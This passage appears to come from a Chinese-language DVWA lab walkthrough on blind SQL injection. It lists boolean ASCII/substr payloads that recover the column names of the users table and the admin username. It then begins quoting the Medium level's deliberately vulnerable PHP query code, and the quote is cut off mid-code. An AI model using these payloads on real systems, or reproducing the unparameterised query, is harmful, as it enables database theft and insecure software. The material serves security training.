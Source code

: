         

说明users表中的第一列为7个字符长度，第二列有为6

3.  猜解列名称

和之前的库的方法一样，第一列名第一位

    1’ and ascii(substr((select column_name from information_schema.columns where table_name=‘users’ limit 0,1),1))>97 #
    
        

    1’ and ascii(substr((select column_name from information_schema.columns where table_name=‘users’ limit 0,1),1))=117 #
    
        

第二位

    1’ and ascii(substr((select column_name from information_schema.columns where table_name=‘users’ limit 0,1),2))=115 #
    
        

第二个列名第一位，把0改为1就是第二个列名

    1’ and ascii(substr((select column_name from information_schema.columns where table_name=‘users’ limit 1,1),1))=102 #
    
        

如此反复最后8个列名为：-
user\_id,first\_name,last\_name,user,password,avatar,last\_login,failed\_login

#### 5.猜解用户名

    1’ and (ascii(substr((select user from users limit 0,1),1,1)))=97 #
    
        

    1’ and (ascii(substr((select user from users limit 0,1),2,1)))=100 #
    
        

最终得到结果用户名为：admin

## Medium

### 源代码

    <?php
    
    if( isset( $_POST[ 'Submit' ]  ) ) {
        // Get input
        $id = $_POST[ 'id' ];
        $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    
        // Check database
        $getid  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors
    